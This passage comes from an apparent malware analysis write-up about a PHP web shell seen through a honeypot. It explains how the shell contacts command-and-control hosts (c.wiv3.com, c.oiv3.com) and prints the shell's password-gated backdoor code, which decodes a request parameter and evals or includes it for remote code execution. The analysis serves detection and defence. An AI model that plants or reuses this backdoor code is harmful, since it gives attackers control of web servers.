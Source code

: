 Some of the addons to the shell include checks for additional `$_REQUEST` params that perform requests to a new C2 URL. If `ac`, `path`, `api`, and `t` are passed into this file (the same query parameters that were logged via our honeypot), it will trigger a `GET` request to be made via `curl` to one of these C2 URL's: `https://c.wiv3.com/` or `https://c.oiv3.com/`. A function called `get_code()` is run which builds a URL from the `$_REQUEST` values that are passed in from the C2 server that looks like `https://c.wiv3.com/?api=&ac=&path=&t=`. From our logs above, we know the values `ac=p` and `t=f610088ee31773d3a8ee99a6210882b4`, making the URL: `https://c.wiv3.com/?api=&ac=p&path=&t=f610088ee31773d3a8ee99a6210882b4`. Performing a `GET` request to this URL gives this response:

```php
<?php
function i($i)
{
    echo '{->|' . $i . '|<-}';
}
$path = $_SERVER['SCRIPT_FILENAME'];
if(strpos($_SERVER['SCRIPT_FILENAME'], ":"))
{
    $path = str_replace('\\', '/', $path);
}
i(str_replace(str_replace('//','/',$_SERVER['PHP_SELF']), '', str_replace('\\\\','/',$path) ));
```

The C2 response is written to a temporary file and then included in the current file, making the current file output the following text: `{->|/home4/path/to/host/public_html/victimdomain.com|<-}`

This is most likely used by the attacker to understand where the malicious files in the infected host are. As we saw above, after the victim's domain is submitted to the C2, another request is made to `/admin.php` with these parameters, exposing the file path to the C2.

The last bit of custom functionality added to this web shell is the following code:

```typescript
if (isset($_REQUEST['pwd163']) && md5($_REQUEST['pwd163']) == $password_hash) {
    $malicious_query_param_payload = base64_decode(rawurldecode((urlencode(urldecode($_REQUEST['zzz'])))));
    $need = "<?php";
    if (strpos($malicious_query_param_payload, $need) === false) {
        $malicious_query_param_payload = $need . PHP_EOL . $malicious_query_param_payload;
    }
    if (isset($_REQUEST['e'])) {
        $malicious_query_param_payload = str_replace($need, "", $malicious_query_param_payload);
        eval($malicious_query_param_payload);
        die();
    }
    $file_name = tmpfile();
    fwrite($file_name, $malicious_query_param_payload);
    $require_params = stream_get_meta_data($file_name);
    @require($require_params['uri']);
    fclose($file_name);
    die();
}
```

If the C2 passes in the correct password hash in a request parameter called `pwd163`, it expects that a url + base64 encoded payload is passed in via another `$_REQUEST` param called `zzz`. This payload is decoded and either executed straight on the current file via the PHP [`eval()`](https://www.php.net/manual/en/function.eval.php) function, or the payload is written to a temporary file, which is then required in the current file. Either of these paths lead to the same outcome: arbitrary code execution.

